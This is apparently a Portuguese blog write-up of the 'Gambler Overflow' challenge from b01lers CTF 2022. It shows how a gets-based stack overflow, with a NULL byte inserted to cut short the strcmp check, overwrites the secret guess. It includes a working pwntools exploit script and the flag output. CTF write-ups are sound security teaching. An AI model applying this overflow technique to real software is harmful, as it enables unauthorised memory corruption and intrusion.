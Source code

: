 ```yaml
---
layout: post
title: Gambler Overflow - [b01lers CTF]
date: 2022-04-27 22:26
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

Existe um óbvio buffer overflow que permite sobreescrever valores. Mas ao invés de uma simples execução de shellcode ou redirecionamento de código, havia um caminho mais simples de se percorrer.

Caso queira acompanhar, o binário do challenge está [aqui](https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/b01lers_CTF_2022/gambler_overflow). E o link com as informações do evento [aqui](https://ctftime.org/event/1583).

Com o overflow é possível sobreescrever o valor da `Correct Word`:
```
Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)
Your current balance: 100
Guess me a string of length 4 with lowercase letters: aaaa
Your guess: aaaa
Correct word: pmbp
Bummer, you lost. -10 coins.
Your current balance: 90
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
Your current balance: 80
Guess me a string of length 4 with lowercase letters: 
```

Essa tese pode ser confirmada ao se analisar o pseudo código gerado pelo Ghidra da função `casino`, responsável por maior parte da lógica do programa. Renomeei as variáveis que achei interessantes e deixei o resto do jeito que o Ghidra quis:

<script src="https://gist.github.com/brerodrigues/dfb4567a3b433ad61586db8da2525e6f.js"></script>

Pode se observar na linha 23 que o programa utiliza a função `gets` para obter o input do usuário, como `gets` não se importa com o tamanho do input, possibilita que seja armazenado em `user_input` um valor maior que os 8 chars previamente reservados, nos deixando sobreescrever os valores armazenados abaixo de `user_input` na stack. E logo abaixo de `user_input` na stack está, convenientemente, `correct_guess` com o valor pseudo aleatório gerado no looping iniciado na linha `36`.

Há um pequeno pulo do gato para ser bem sucedido ao explorar esse overflow. De que adianta poder trocar o valor de `correct_guess` se na hora da comparação os valores vão ser diferentes? Afinal, é necesário inserir um certo número de caracteres antes de se chegar na área de memória onde está `correct_guess` e na hora da comparação os dois valores não vão bater:

```
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
```

Todas as proteções populares estão habilitadas no binário (NX, PIE, Canaries), o que dificulta alguns tipos de ataque. Na linha `60` existe uma verificação que checka se o valor de `balance` é maior que `1000`. Caso seja, chama uma função que imprime a flag na tela. Como seria possível trapacear, já que controlamos o valor de `correct_guess`?

Aqui mora o momento que o gato dá seu pequeno pulo: na linha `47` é chamada a função `strcmp` para comparar `user_input` e `correct_guess`. `strcmp` foi feita para comparar duas strings e considera uma string uma sequência de caracteres finalizada por um NULL byte. Consegue entender onde quero chegar?

`gets`, diferente de `strcmp`, não se importa em consumir NULL bytes, ela vai lendo até encontrar um EOF (end of file, pode ser enviado com CTRL+D no terminal) ou um new line (um simples Enter). Então é possível inserir via `gets` uma string que formada por: 7 caracteres + NULL byte + 7 caracteres. Os primeiros 7 caracteres serão utilizados em `strcmp` como nosso input (ela vai desconsiderar o NULL byte e tudo que vier depois), e o segundo conjunto será o novo valor de `correct_guess`.

Aí vai o exploit que escrevi que provavelmente pode ser simplificado em apenas uma linha de código:

```python
#!/usr/bin/env python

from pwn import *

get_flag = False
chall_name = 'gambler_overflow'

def run_with_gdb(p):
    gdb.attach(p,'''
    b *main
    b *casino+280''')

def run_exploit(p, debug):
    if debug:
        run_with_gdb(p)
        

    overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)

    while (True):
        output = p.recv(timeout=2).decode()
        #print(output)
        if "FLAG" in output:
            print(output)
        else:
            p.sendline(overflow)
            
    p.close()

if get_flag:
    p = remote('178.62.32.210', '30138')
    run_exploit(p, False)
else:
    process_full_path = './' + chall_name
    p = process(process_full_path)
    run_exploit(p, False)
```

e rodando:

```
[+] Starting local process './gambler_overflow': pid 7322
Your guess: AAAAAAA
Correct word: AAAAAAA
You won (wow)! +10 coins.
FLAG{isso_eh_a_flag_txt}

See you next time!
```
